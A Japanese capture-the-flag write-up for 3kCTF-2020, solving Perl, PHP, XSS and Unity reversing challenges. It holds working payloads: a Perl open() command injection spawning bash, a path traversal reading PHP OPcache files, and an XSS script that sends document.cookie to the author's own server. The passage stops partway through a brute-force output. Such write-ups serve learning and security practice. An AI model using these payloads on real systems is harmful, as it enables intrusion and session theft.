






7 月 25 日に開催された [3kCTF-2020](https://ctf.the3000.org/) に、チーム zer0pts として参加しました。最終的にチームで 10587 点を獲得し、順位は 262 点以上得点した 491 チーム中 1 位でした。うち、私は 5 問を解いて 2453 点を入れました。

他のメンバーが書いた write-up はこちら。

- [3kCTF 2020 writeup - ふるつき](https://furutsuki.hatenablog.com/entry/2020/07/26/185243)
- [3kCTF-2020 Writeup - CTFするぞ](https://ptr-yudai.hatenablog.com/entry/2020/07/26/213605)

以下、私が解いた問題の write-up です。

## [Misc 495] flood (11 solves)
> flood is a lame math game written in perl  
> find your way to the flag
> 
> nc (接続情報)
> 
> 添付ファイル: service.pl

`service.pl` は以下のような内容でした。

```perl
#!/usr/bin/perl
print "+ Auth?> ";
my $Auth = <STDIN>;
chomp $Auth;
if ($Auth ne '35ec04cd3b79ab89896836c69257ce86487cf55f'){
	exit();
}


print "+ Who r u?: ";
my $name = <STDIN>;
chomp $name;
$name=~s/\.//g;
$name=~s/\///g;
$name=~s/ //g;
my $points = 0;
my $gold   = 0;
my $goldrequired = 250;

while(show_help() and $uInput = <STDIN>){
	chomp $uInput;
	if($uInput eq "1"){
		my $rand1 = int(rand(100));
		my $rand2 = int(rand(100));
		my $res = $rand1 + $rand2;

		print "Lets do math, i can only do addition\n";
		print "$rand1 + $rand2 ?\n> ";
		my $subm = <STDIN>;
		chomp $subm;

		if( int($subm) == $res ){
			if($points<=1000){
				$points++;
			}
		}else{
			$points--;
		}


	}elsif($uInput eq "2"){
		print "? how much points u wanna spend\n";
		print "! 1 GOLD = 1000 POINTS\n> ";
		my $subm = <STDIN>;
		chomp $subm;
		if( ($subm) <= $points and int($subm)>=0 ){
			$points -= ($subm);
			$gold   += ($subm)/1000;
		}

	}elsif($uInput eq "3"){
		print "? how much gold u wanna spend\n";
		print "! 1 GOLD = 1000 POINTS\n> ";
		my $subm = <STDIN>;
		chomp $subm;
		if( ($subm) <= $gold  and int($subm)>=0){
			$gold   -= ($subm);
			$points += ($subm)*1000;
		}
	}elsif($uInput eq "4"){
		if($gold<=$goldrequired){
			print "! you no gold\n";
			print "! no scoreboard for u\n";
		}else{
			#$score = qx/for i in \$(ls -t \/app\/files | head -5); do printf "\$i:"; cat "\/app\/files\/\$i"; echo ""; done;/;
			$score = "Temporarily disabled\n";
			print $score;
		}
	}elsif($uInput eq "5"){
		if($gold<=$goldrequired){
			print "! no";
		}else{
			print "LOAD GAME SAVE...\n";
			open (SAVEGAME, "/app/files/".$name) or break;
			while ($line = <SAVEGAME>) {
				chomp $line;
			    $gold = $line ;
			    close(SAVEGAME);
			    print "SAVE LOADED\n";
			    break;
			}
		}
		
		
	}elsif($uInput eq "6"){
		if($gold<=$goldrequired){
			print "! no";
		}else{
			print "SAVING GAME...\n";
			open(SAVEGAME, '>', "/app/files/".$name) or break;
			print SAVEGAME $gold;
			close(SAVEGAME);
			print "GAME SAVED \n";
		}
	}elsif($uInput eq "7"){
		exit();
	}
}


sub show_help{
	print "\n\n? What you wanna do <$name>\n";
	print "* u hav $points points\n";
	print "* u hav $gold gold\n";
	print "[1] DO MATH\n";
	print "[2] BUY GOLD\n";
	print "[3] SELL GOLD\n";
	print "[4] SCOREBOARD\n";
	print "[5] LOAD GAME\n";
	print "[6] SAVE GAME\n";
	print "[7] EXIT\n";
	print "> ";
}
```

2 ケタの計算問題を解くと (所持しているのが 1000 ポイント以下であれば) 1 ポイントがもらえるというゲームのようです。1000 ポイント貯めると 1 ゴールドに換金でき、250 ゴールドを貯めるとデータのセーブもしくはロードができるようです。

最初に `my $name = <STDIN>;` によって `$name` にはユーザ入力が入っており、またゲームのセーブ時には `open (SAVEGAME, "/app/files/".$name) or break;` とユーザ入力が制限なしに `open` に引数として渡っていることがわかります。私がこの問題に取り掛かった時点で、[mitsu](https://twitter.com/meowricator) さんが Perl の仕様からここで OS コマンドインジェクションができるのではないかというアイデアを出していました。

`perl -e 'open(SAVEGAME, "/app/files; sleep 5|")'` を実行すればわかるように、Perl では `open` にわたすファイル名の最後に `|` を付け加えることで、OS コマンドを実行することができます。

`; (OS コマンド)|` を名前として入力した上でゲームのロードをすればよさそうですが、まずは 250 ゴールドを貯める必要があります。250000 ポイントも計算問題を解くことで貯めるのは非現実的ですから、他の方法がないか探してみましょう。

ゴールドをポイントに換金する処理を見てみます。

```perl
		print "? how much gold u wanna spend\n";
		print "! 1 GOLD = 1000 POINTS\n> ";
		my $subm = <STDIN>;
		chomp $subm;
		if( ($subm) <= $gold  and int($subm)>=0){
			$gold   -= ($subm);
			$points += ($subm)*1000;
		}
```

`$subm` にはポイントに変換するゴールドの数が入っています。`int($subm)>=0` と条件文では `$subm` の小数部を切り捨てた上で負数でないかチェックしていますが、`$gold   -= ($subm);` と所有しているゴールドを減らす処理では小数部を切り捨てていません。

`-0.999999` は負数ですが、`int` 関数に渡すと小数部が切り捨てられて `0` になります。入力してみましょう。

```
? What you wanna do <neko>
* u hav 0 points
* u hav 0 gold
[1] DO MATH
[2] BUY GOLD
[3] SELL GOLD
[4] SCOREBOARD
[5] LOAD GAME
[6] SAVE GAME
[7] EXIT
> 3
? how much gold u wanna spend
! 1 GOLD = 1000 POINTS
> -0.999999


? What you wanna do <neko>
* u hav -999.999 points
* u hav 0.999999 gold
```

ポイントを稼がずにゴールドを増やすことができました。このまま自動で 250 ゴールドまで貯めて、ゲームのロードまでしてくれるスクリプトを書いてみましょう。

最初に入力するユーザ名は `; bash|` にしておいて `bash` が実行されるようにしておきます。

```python
from pwn import *
sock = remote('(省略)', 7777)
sock.recvuntil('+ Auth?> ')
sock.sendline('35ec04cd3b79ab89896836c69257ce86487cf55f')
sock.recvuntil('+ Who r u?: ')
sock.sendline('; bash|')

gold = 0
while gold < 250:
  sock.recvuntil('* u hav ')
  points = float(sock.recvline().split(' ')[-2])
  sock.recvuntil('* u hav ')
  gold = float(sock.recvline().split(' ')[-2])
  print points, gold

  sock.recvuntil('> ')
  sock.sendline('3')
  sock.recvuntil('> ')
  sock.sendline('-.999999')

sock.recvuntil('> ')
sock.sendline('5')
sock.interactive()
```

```
$ python solve.py
︙
ctf@rekter0-flood:~$ ls / >& 2
app                                              lib         sbin
bin                                              lib64       snap
boot                                             lost+found  srv
dev                                              media       sys
etc                                              mnt         tmp
fcad0373020fa6ede979389f558b396f4cd38ec1_README  opt         usr
home                                             proc        var
initrd.img                                       root        vmlinuz
initrd.img.old                                   run         vmlinuz.old
ctf@rekter0-flood:~$ cat /fcad0373020fa6ede979389f558b396f4cd38ec1_README >& 2
3k{p333rl_aInt_7hat_deAd_Y3t}
```

フラグが得られました。

```
3k{p333rl_aInt_7hat_deAd_Y3t}
```

## [Web 496] carthagods (10 solves)
> Salute the carthagods!
> 
> (URL)
> 
> 添付ファイル: index.php, .htaccess

`index.php` は以下のような内容でした。

```php
︙
				<form class="login100-form validate-form">
					<span class="login100-form-title p-b-49">
						Carthagods
					</span>

					<div class="wrap-input100 validate-input m-b-23" >
						<span class="label-input100"><a href="./baal">Baal</a></span>
					</div>
					<div class="wrap-input100 validate-input m-b-23">
						<span class="label-input100"><a href="./tanit">Tanit</a></span>
					</div>
					<div class="wrap-input100 validate-input m-b-23">
						<span class="label-input100"><a href="./dido">Dido</a></span>
					</div>
					<div class="wrap-input100 validate-input m-b-23">
						<span class="label-input100"><a href="./caelestis">caelestis</a></span>
					</div>
					<div class="wrap-input100 validate-input m-b-23">
						<span class="label-input100"><a href="./info.php">phpinfo</a></span>
					</div>
					<div class="wrap-input100 validate-input m-b-23">
						<span class="label-input100"><a href="./flag.php">FLAG</a></span>
					</div>

					<div class="wrap-input100 validate-input m-b-23">
						<textarea class="label-input100" style="color:black;width: 100%;height: 300px;"><?php
								if(@$_GET[*REDACTED*]){
									$file=$_GET[*REDACTED*];
									$f=file_get_contents('thecarthagods/'.$file);
									if (!preg_match("/<\?php/i", $f)){
									    echo $f;
									}else{
										echo 'php content detected';
									}
								}
							?>
						</textarea>
					</div>
					
					
					

					
				</form>
︙
```

`*REDACTED*` とパラメータ名が削除されてしまってはいますが、ファイル名が GET パラメータから与えられると `file_get_contents('thecarthagods/'.$file)` によって読み出されて出力されるようです。`$file` は一切チェックがされていないのでパストラバーサルができそうですが、その前に `thecarthagods/` が結合されているので `php://filter` のようなストリームラッパーを使うことはできなさそうです。

`<a href="./flag.php">FLAG</a>` というリンクから `./flag.php` にフラグが存在していると推測できます。が、`preg_match("/<\?php/i", $f)` から読み込まれたファイルに `<?php` が含まれていると出力されないこともわかります。ストリームラッパーを使わずにどうしろというのでしょうか。

`.htaccess` は以下のような内容でした。

```
RewriteEngine on
options -indexes


RewriteRule ^([a-zA-Z0-9_-]+)$ index.php?*REDACTED*=$1 [QSA]
```

`^[a-zA-Z0-9_-]+$` に合致するパスにアクセスすると `index.php?*REDACTED*=(アクセスしようとしたパス名)` にアクセスしたときと同じコンテンツが返ってくるようにしているようです。

HTTP レスポンスヘッダを見れば `*REDACTED*` がわかるのではないかと思いましたが、これは HTTP のリダイレクトではなく Apache で内部的に処理されているのでそのようなことはできません。

色々試していると、`/thecarthagods` にアクセスしたときに不思議なことが起こりました。

```
$ curl -I --path-as-is 'http://(省略)/thecarthagods'
HTTP/1.1 301 Moved Permanently
Date: Mon, 27 Jul 2020 16:25:34 GMT
Server: Apache/2.4.29 (Ubuntu)
Location: http://(省略)/thecarthagods/?eba1b61134bf5818771b8c3203a16dc9=thecarthagods
Content-Type: text/html; charset=iso-8859-1
```

`*REDACTED*` が `eba1b61134bf5818771b8c3203a16dc9` であるとわかりました。Apache の `/(ディレクトリ名)` にアクセスすると `/(ディレクトリ名)/` と[後ろにスラッシュがついたパスにリダイレクトされる](https://httpd.apache.org/docs/2.4/mod/mod_dir.html)という仕様を踏んだようです。

これで `<?php` が含まれていないという条件で好きなファイルを読むことができました。でも `flag.php` を読めなければ意味がありません。

`index.php` のリンクの中には `info.php` があります。アクセスすると `phpinfo()` が表示されました。なにか使えるものがないか眺めていると、OPcache という PHP のファイルベースのキャッシュが有効になっていることが確認できました。



また、キャッシュファイルは `/var/www/cache/` 下に存在していることもわかります。


`flag.php` のキャッシュもこのディレクトリに存在していたりしないでしょうか。

キャッシュのパスは `/var/www/cache/(システム ID)/(ファイルのパス).bin` のようになっています。システム ID は PHP のバージョンやアーキテクチャなどの情報から計算されています。

`phpinfo()` からどのようにシステム ID を計算すればよいか調べていたところ、[ptr-yudai](https://twitter.com/ptrYudai) さんが [`GoSecure/php7-opcache-override`](https://github.com/GoSecure/php7-opcache-override) というツールで計算していました。

```
PHP version : 7.2.24-0ubuntu0.18.04.6
Zend Extension ID : API320170718,NTS
Zend Bin ID : BIN_SIZEOF_CHAR48888
Assuming x86_64 architecture
------------
System ID : e2c6579e4df1d9e77e36d2f4ff8c92b3
PHP lower than 7.4 detected, an alternate Bin ID is possible:
Alternate Zend Bin ID : BIN_148888
Alternate System ID : 810741a4fc47bd39ce6351462f6db6c6
```

システム ID は `e2c6579e4df1d9e77e36d2f4ff8c92b3` のようです。ということは `flag.php` のキャッシュのパスは `/var/www/cache/e2c6579e4df1d9e77e36d2f4ff8c92b3/var/www/html/flag.php.bin` でしょうか。

`http://(省略)/index.php?eba1b61134bf5818771b8c3203a16dc9=../../../../../../../var/www/cache/e2c6579e4df1d9e77e36d2f4ff8c92b3/var/www/html/flag.php.bin` にアクセスしてみましょう。

```
$ curl 'http://(省略)/index.php?eba1b61134bf5818771b8c3203a16dc9=../../../../../../../var/www/cache/e2c6579e4df1d9e77e36d2f4ff8c92b3/var/www/html/flag.php.bin' | strings | grep 3k
3k{Hail_the3000_years_7hat_are_b3h1nd}
```

フラグが得られました。

```
3k{Hail_the3000_years_7hat_are_b3h1nd}
```

## [Web 499] xsser (4 solves)
> (URL)

与えられた URL にアクセスすると、以下のような PHP コードが表示されました。

```php
<?php
include('flag.php');
class User

{
    public $name;
    public $isAdmin;
    public function __construct($nam)
    {
        $this->name = $nam;
        $this->isAdmin=False;
    }
}

ob_start();
if(!(isset($_GET['login']))){
    $use=new User('guest');
    $log=serialize($use);
    header("Location: ?login=$log");
    exit();

}

$new_name=$_GET['new'];
if (isset($new_name)){


  if(stripos($new_name, 'script'))//no xss :p 
                 { 
                    $new_name = htmlentities($new_name);
                 }
        $new_name = substr($new_name, 0, 32);
  echo '<h1 style="text-align:center">Error! Your msg '.$new_name.'</h1><br>';
  echo '<h1>Contact admin /req.php </h1>';

}
 if($_SERVER['REMOTE_ADDR'] == '127.0.0.1'){
            setcookie("session", $flag, time() + 3600);
        }
$check=unserialize(substr($_GET['login'],0,56));
if ($check->isAdmin){
    echo 'welcome back admin ';
}
ob_end_clean();
show_source(__FILE__);
```

アクセス元の IP アドレスが `127.0.0.1`、つまり内部からのアクセスの場合にのみ `setcookie("session", $flag, time() + 3600);` と Cookie にフラグが格納されるようです。

`$new_name=$_GET['new'];` `$new_name = substr($new_name, 0, 32);` と 32 文字に切り詰められてしまいますが `$new_name` にユーザ入力が入っており、`script` が含まれていない場合にのみ `echo '<h1 style="text-align:center">Error! Your msg '.$new_name.'</h1><br>';` とエスケープもされず出力されています。`req.php` から URL を投稿すると admin が巡回しに来るようですから、この XSS を使って Cookie を抜けということでしょうか。

ただ、最初に `ob_start()` によって出力が全てバッファリングされた上で、最後に `ob_end_clean()` と出力しないままバッファを捨てられていますから、GET パラメータから XSS をしようとしてもこのままではできません。なんとかできないでしょうか。

`ob_start()` から `ob_end_clean()` までに `unserialize(substr($_GET['login'],0,56))` と GET パラメータがデシリアライズされていることに注目します。[`ob_start` のドキュメント](https://www.php.net/manual/ja/function.ob-start.php)を見ると、コメント欄で

> When a fatal error is thrown, PHP will output the current buffer of Output-Control without postprocessing before printing the error message.
> 
> https://www.php.net/manual/ja/function.ob-start.php#108016

と、致命的なエラーが発生すると、バッファを出力した上でエラーが出力されるいう情報が得られました。`unserialize` で致命的なエラーを発生させる方法を探しましょう。

定義されているクラスのオブジェクトを片っ端からデシリアライズする PHP コードを書きます。

```php
<?php
foreach (get_declared_classes() as $v) {
  echo $v . "\n";
  unserialize('O:' . strlen($v) . ':"' . $v . '":0:{}');
}
```

実行します。

```
$ php go.php
︙
DateTime

Fatal error: Uncaught Error: Invalid serialization data for DateTime object in /tmp/go.php:4
Stack trace:
#0 [internal function]: DateTime->__wakeup()
#1 /tmp/go.php(4): unserialize('O:8:"DateTime":...')
#2 {main}
  thrown in /tmp/go.php on line 4
```

`Datetime` をデシリアライズしたときに致命的なエラーが発生しました。

本当に致命的なエラーが発生すればバッファが出力されるか、`/?login=O:8:"DateTime":0:{}&new=<s>test</s>` にアクセスして試してみましょう。



`<s>test</s>` がそのまま HTML として出力されています。XSS できました!

あとは 32 文字以内の XSS ゴルフをするだけです。`<svg onload=(JS コード)>` と `eval(name)` (ウィンドウ名を `eval` する) を組み合わせてみましょう。

```html
<body>
<script>
let dom = '(問題サーバ)';
window.name = 'alert(123)';
location.href = `http://${dom}/?login=O:8:%22DateTime%22:0:{}&new=%3Csvg/onload=eval(name)%3E`;
</script>
</body>
```

この HTML を開くと問題サーバのコンテキストでアラートが表示されました。

あとはやるだけです。問題サーバのコンテキストで実行させるコードを `alert(123)` から `document.cookie` を自分の管理下にあるサーバに送信させるものに変えます。また、`SameSite=Lax` でも Cookie にアクセスできるよう `location.href='(URL)'` を `a` 要素を生成してクリックさせるように変えておきます。

```html
<body>
<script>
let a = document.createElement('a');
let dom = '(問題サーバ)';
window.name = '(new Image).src="http://(省略)?"+document.cookie';
a.href = `http://${dom}/?login=O:8:%22DateTime%22:0:{}&new=%3Csvg/onload=eval(name)%3E`;
a.textContent = 'hoge';
document.body.appendChild(a);
a.click();
</script>
</body>
```

この HTML を置いた URL を `req.php` から報告したところ、フラグが得られました。

```
3k{3asy_XsS_&_pHp_Ftw}
```

## [Reversing, Misc 486] game 1 (30 solves)
> find your way to the heart of the maze
> 
> flag format is different:  
> 3K-string
> 
> 添付ファイル: Windows.zip, Linux.zip

Unity 製の迷路ゲームのようです。`find your way to the heart of the maze` と迷路の中心部に行けばフラグが得られそうな雰囲気がありますが、以下の画像のように画面が真っ暗で何も見えません。



Excel か方眼紙でマッピングして迷路を解いてもよさそうですが、せっかくですから CTF っぽくチートをしましょう。

私が思いついた方法は、シーンのファイルから壁の座標などの情報を抜き出して、新しい Unity プロジェクトを作って迷路を再現するというものでした。

[Unity Assets Bundle Extractor (UABE)](https://github.com/DerPopo/UABE) というツールを使えば、`level0` や `globalgamemanagers` といったファイルからテクスチャや `Transform` (座標やスケール、回転の情報が入っている) など様々なデータを抽出することができます。

UABE にこのゲームの `level0` を投げてみると、`GameObject Wall (99)` など壁に関するデータがたくさん含まれていることがわかります。



`View Data` でこのひとつを見てみると、これらの持つ `Transform` の情報を見れば壁の位置などの情報が得られそうだとわかります。


これらのファイルをダンプします。扱いやすいよう、座標、スケール、回転の情報だけを抜き出して JSON に変換するスクリプトを書きます。

```python
import glob
import json

walls = []
for fn in glob.glob('data/Wall*GameObject.json'):
  wall = {}

  with open(fn, 'r') as f:
    data = json.load(f)
  pathid = data['0 GameObject Base']['0 vector m_Component']['1 Array Array'][0]['0 ComponentPair data']['0 PPtr<Component> component']['0 SInt64 m_PathID']
  wall['tag'] = {
    20000 + i: f'Box{i+1}' for i in range(6)
  }.get(data['0 GameObject Base']['0 UInt16 m_Tag'], None)

  with open(glob.glob(f'data/*{pathid}-Transform.json')[0], 'r') as f:
    transform = json.load(f)

  position = transform['0 Transform Base']['0 Vector3f m_LocalPosition']
  wall['position'] = {
    'x': position['0 float x'],
    'y': position['0 float y'],
    'z': position['0 float z']
  }

  scale = transform['0 Transform Base']['0 Vector3f m_LocalScale']
  wall['scale'] = {
    'x': scale['0 float x'],
    'y': scale['0 float y'],
    'z': scale['0 float z']
  }

  rotation = transform['0 Transform Base']['0 Quaternionf m_LocalRotation']
  wall['rotation'] = {
    'x': rotation['0 float x'],
    'y': rotation['0 float y'],
    'z': rotation['0 float z'],
    'w': rotation['0 float w']
  }

  walls.append(wall)

with open('data.json', 'w') as f:
  json.dump(walls, f)
```

新しく Unity プロジェクトを作り、生成した JSON から壁を配置するスクリプトを書きましょう。

```csharp
using System.Collections;
using System.Collections.Generic;
using UnityEngine;

public class script : MonoBehaviour {

	// Use this for initialization
	void Start () {
		float[,,] walls = new float[,,] {{{-4.20050049f,2.49399996f,-0.598999977f,0f},{4.5f,4f,0.5f,0f},{0f,0.707106829f,0f,0.707106829f}},…,{{0f,0f,0f,0f},{1f,1f,1f,0f},{0f,0f,0f,1f}}};
		for (int i = 0; i < 173; i++) {
		GameObject obj = (GameObject)Resources.Load("Cube");
			obj.transform.localScale = new Vector3(walls[i, 1, 0], walls[i, 1, 1], walls[i, 1, 2]);
			Instantiate (
				obj,
				new Vector3(walls[i, 0, 0], walls[i, 0, 1], walls[i, 0, 2]),
				new Quaternion(walls[i, 2, 0], walls[i, 2, 1], walls[i, 2, 2], walls[i, 2, 3])
			);
		}
    }
	
	// Update is called once per frame
	void Update () {
		
	}
}
```

これを実行すると、以下のように迷路を再現することができました。



中心部に怪しげなものがあります。ズームしてみます。



フラグが得られました。

```
3K-CTF-A-MAZE-ING
```

---

CTF の終了後に Daemon Summoners のプレイヤーによって公開された [writeup](https://ctftime.org/writeup/22605) によれば、[mafaca/UtinyRipper](https://github.com/mafaca/UtinyRipper) というツールを使えば Unity エディタで扱える形式に変換することができたようです。便利だなあ。

## [Reversing, Misc 477] game 2 (48 solves)
> the shortest route is often the best
> 
> flag format is different:  
> 3K-string
> 
> 添付ファイル: Windows.zip, Linux.zip

添付ファイルは `game 1` と同じものでした。今度は最短経路を見つければよいようですが、まずはどのようにしてフラグが生成されるかを確認しましょう。

このゲームには `CTF_Data/Managed` に `Assembly-CSharp.dll` が存在しており、[dnSpy](https://github.com/0xd4d/dnSpy) に投げればゲームのロジックを見ることができます。

`GameManager` というクラスから見ていきます。

`Box1` ~ `Box6` と 6 つの箱に衝突したときに、それぞれ `Box1` ~ `Box6` というプロパティに格納されている文字列を引数として `UiManager` の `UpdateTexte` というメソッドを呼び出しています。

```csharp
using System;
using UnityEngine;

namespace CTF
{
	// Token: 0x02000004 RID: 4
	public class GameManager : MonoBehaviour
	{
		// Token: 0x06000013 RID: 19 RVA: 0x00004960 File Offset: 0x00002B60
		private void OnTriggerEnter(Collider other)
		{
			if (other.tag == "Box1")
			{
				if (this.isCollidingBox1)
				{
					return;
				}
				this.isCollidingBox1 = true;
				UiManager.current.UpdateTexte(this.Box1);
				Object.Destroy(other.gameObject);
			}
			// ︙
			if (other.tag == "Box6")
			{
				if (this.isCollidingBox6)
				{
					return;
				}
				this.isCollidingBox6 = true;
				UiManager.current.UpdateTexte(this.Box6);
				Object.Destroy(other.gameObject);
			}
		}

		// Token: 0x04000054 RID: 84
		private bool isCollidingBox1;
// ︙
		// Token: 0x04000059 RID: 89
		private bool isCollidingBox6;

		// Token: 0x0400005A RID: 90
		[SerializeField]
		private string Box1;
// ︙
		// Token: 0x0400005F RID: 95
		[SerializeField]
		private string Box6;
	}
}
```

`Box1` ~ `Box6` というプロパティに格納されている文字列は `SerializeField` 属性がついており、`Assembly-CSharp.dll` からは見ることができません。UABE で `level0` を開くと、`Box1` ~ `Box6` に入っている文字列を得ることができました。


箱の衝突時に呼び出されている `UpdateTexte` メソッドを見ていきます。引数を `textHolder` に結合し、6 回衝突すると `textHolder` を鍵として `Encrypt.DecryptString` で何かを復号しているようです。

```csharp
		public void UpdateTexte(string textToAdd)
		{
			this.counter++;
			Text expr_14 = this.textHolder;
			expr_14.text += textToAdd;
			if (this.counter == 6)
			{
				this.cText = Encrypt.current.DecryptString(this.textHolder.text);
				this.textHolder.text = this.cText;
			}
		}
```

`Encrypt.DecryptString` を見ていきましょう。

`cipherText` という文字列を Base64 デコードしたものが暗号文のようです。これも `SerializeField` 属性が付与されており、UABE を使って `level0` から抽出することができました。

その後、引数として与えられた鍵とハードコードされたソルトで `Rfc2898DeriveBytes` のインスタンスを作り、これによって鍵と IV を生成して `cipherText` を AES で復号しているようです。

```csharp
		public string DecryptString(string key)
		{
			byte[] array = Convert.FromBase64String(this.cipherText);
			string result;
			using (Aes aes = Aes.Create())
			{
				byte[] expr_1A = new byte[13];
				RuntimeHelpers.InitializeArray(expr_1A, fieldof(<PrivateImplementationDetails>.B917754BCFE717EB4F7CE04A5B11A6351EEC5015).FieldHandle);
				Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(key, expr_1A);
				aes.Key = rfc2898DeriveBytes.GetBytes(32);
				aes.IV = rfc2898DeriveBytes.GetBytes(16);
				try
				{
					using (MemoryStream memoryStream = new MemoryStream())
					{
						using (CryptoStream cryptoStream = new CryptoStream(memoryStream, aes.CreateDecryptor(), CryptoStreamMode.Write))
						{
							cryptoStream.Write(array, 0, array.Length);
							cryptoStream.Close();
						}
						this.cipherText = Encoding.Unicode.GetString(memoryStream.ToArray());
					}
					result = this.cipherText;
				}
				catch (Exception)
				{
					result = "wrong Order mate ";
				}
			}
			return result;
		}
// ︙
		// Token: 0x04000053 RID: 83
		[SerializeField]
		private string cipherText;
```

`wrong Order mate` というメッセージと鍵の生成方法から、`UpdateTexte` を呼び出す順番 (箱に当たる順番) が正しくないとフラグが得られないことがわかります。

720 通りですから、ブルートフォースしてしまいましょう。

```python
import base64
import itertools
import clr
clr.AddReference('System.Security')
clr.AddReference('System.IO')
from System.Security import Cryptography
from System.IO import MemoryStream

def genKeyAndIV(dkey):
  rfc2898DeriveBytes = Cryptography.Rfc2898DeriveBytes(dkey, b'Ivan Medvedev')
  key = bytes(rfc2898DeriveBytes.GetBytes(32))
  iv = bytes(rfc2898DeriveBytes.GetBytes(16))
  return key, iv

def decrypt(encrypted, dkey):
  key, iv = genKeyAndIV(dkey)

  aes = Cryptography.Aes.Create()
  aes.Key = key
  aes.IV = iv

  memoryStream = MemoryStream()
  try:
    cryptoStream = Cryptography.CryptoStream(memoryStream, aes.CreateDecryptor(), Cryptography.CryptoStreamMode.Write)
    cryptoStream.Write(encrypted, 0, len(encrypted))
    cryptoStream.Close()
  except:
    return None

  return bytes(memoryStream.ToArray())

encrypted = base64.b64decode('jR9MDCzkFQFzZtHjzszeYL1g6kG9+eXaATlf0wCGmnf62QJ9AjmemY0Ao3mFaubhEfVbXfeRrne/VAD59ESYrQ==')
names = ('Tanit', 'Astarté', 'Amilcar', 'Melqart', 'Dido', 'Hannibal')

for x in itertools.permutations(names, 6):
  decrypted = decrypt(encrypted, ''.join(x))

  if decrypted is None:
    continue

  print(x, decrypted)
```

実行します。

```
$ python solve.py
('Tanit', 'Melqart', 'Astarté', 'Dido', 'Amilcar', 'Hannibal') b'\x84\x1eJ\xb1~v\xf9\x11\xb0$}\xc5|\x84IE+\xe73\x7f\rO\xdb\xbcx>\xbep\xcb\x1bo\x8c\xd5t\x02\x88\x03K\x02\x15\x9d*7*\xaa\x07G>t;\xb6\x8dvQ\x14\xcdx\xbd0\xae\xb41j'
('Amilcar', 'Astarté', 'Melqart', 'Tanit', 'Hannibal', 'Dido') b'\xbf\xf0\xd4\x12"\xa3\xedA\xf9\xd7s\xdd\xb9\xebf\x1b^ (\xd4\x96\x11\xb5\xc8\x82\xde\x1cY\xa7\xe0nQ\\\xfb\xe4\x141\xce?(1\xe4\xa6\x92C\x9e\xd6\xea\xce;w)\xeb\xe9\xff\xcd6\xbdS\x85u:\xc6'
('Hannibal', 'Amilcar', 'Dido', 'Tanit', 'Astarté', 'Melqart') b"-G\xef\xcaD'DZ\x0e\x90\\>\x9fr*\xd2\x14\x06\x1b`\x83\x8em'm}\x87\xe0\x07V\xffub\x97\xb2\xe72)\xc2C\xc6j\x10\xc9l;}\xcc5L1ox\xf8c\xb7\xf5t\xd0\xb4Y\xcf4"
